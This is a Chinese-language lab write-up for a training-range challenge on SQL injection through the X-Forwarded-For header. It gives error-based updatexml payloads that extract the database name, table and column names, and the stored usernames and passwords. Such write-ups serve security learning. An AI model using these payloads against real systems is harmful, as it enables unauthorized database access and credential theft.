 ```yaml
---
{"date":"2024-07-30","tags":["安全/靶场"],"url":null,"dg-publish":true,"permalink":"/随记/墨者_XFF注入_{2024-07-30}/","dgPassFrontmatter":true}
---
```


进去是一个登陆界面
![Pasted image 20240730155230.png](/img/user/picture/Pasted%20image%2020240730155230.png)



随便输一个抓包发现发现会返回ip地址
![Pasted image 20240730155348.png](/img/user/picture/Pasted%20image%2020240730155348.png)
![Pasted image 20240730155356.png](/img/user/picture/Pasted%20image%2020240730155356.png)

这里猜测他在代码中应该是有获取我们ip地址的操作，然后会代入数据库进行查询，所以我们试一下添加XFF头会不会带入查询
`X-Forwarded-For:`


![Pasted image 20240730160041.png](/img/user/picture/Pasted%20image%2020240730160041.png)
![Pasted image 20240730160050.png](/img/user/picture/Pasted%20image%2020240730160050.png)
发现他确实有返回123

加上单引号有报错
![Pasted image 20240730160219.png](/img/user/picture/Pasted%20image%2020240730160219.png)
![Pasted image 20240730160212.png](/img/user/picture/Pasted%20image%2020240730160212.png)

则这里就是一个出入点
开始利用XFF头进行注入



获取到数据库名称
`',updatexml(1,concat(0x7e,(select database()),0x7e),1))#`
![Pasted image 20240730160332.png](/img/user/picture/Pasted%20image%2020240730160332.png)


获取到表名
```sql
' or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema='webcalendar'),0x7e),1))#
```

![Pasted image 20240730160442.png](/img/user/picture/Pasted%20image%2020240730160442.png)


获取到字段名
```sql
' or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='user'),0x7e),1))#
```
![Pasted image 20240730160522.png](/img/user/picture/Pasted%20image%2020240730160522.png)


最后获取到数据是账号和密码
```sql
' or updatexml(1,concat(0x7e,(select group_concat(username,':',password)from user limit 0,1),0x7e),1))#
```
![Pasted image 20240730160558.png](/img/user/picture/Pasted%20image%2020240730160558.png)



![Pasted image 20240730160643.png](/img/user/picture/Pasted%20image%2020240730160643.png)



